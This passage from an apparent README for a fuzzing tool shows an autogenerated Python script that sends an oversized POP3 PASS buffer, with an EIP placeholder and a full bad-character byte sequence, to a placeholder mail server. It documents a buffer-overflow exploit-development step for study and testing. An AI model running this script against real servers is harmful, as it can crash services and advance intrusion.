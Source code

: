 **`badchars.py`**
```python
#!/usr/bin/env python
"""fuzza autogenerated."""

from __future__ import print_function
import socket

def str2b(data):
    """Python2/3 compat."""
    try:
        return data.encode('latin1')
    except UnicodeDecodeError:
        return data

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

len_overflow = 2700      # Use pattern_create.rb and pattern_offset.rb to find exact offset
eip          = "B"*4     # Ignore for badchar detection
badchars = (
    "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
    "\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
    "\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
    "\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
    "\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
    "\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
    "\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
    "\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
    "\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
    "\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
    "\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
    "\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
    "\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
    "\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
    "\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
    "\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
)

buffer = "A"*len_overflow + eip + badchars

print('Trying to send %s bytes buffer...' % (str(len(buffer))))
try:
    s.connect(('mail.example.tld', 110))
    s.recv(1024)
    s.send(str2b('USER test' + '\r\n'))
    s.recv(1024)
    s.send(str2b('PASS ' + buffer + '' + '\r\n'))
    s.recv(1024)
    s.send(str2b('QUIT' + '\r\n'))
    print('done')
except:
    print('Could not connect')
```


## License

**[MIT License](LICENSE.txt)**

Copyright (c) 2020 **[cytopia](https://github.com/cytopia)**
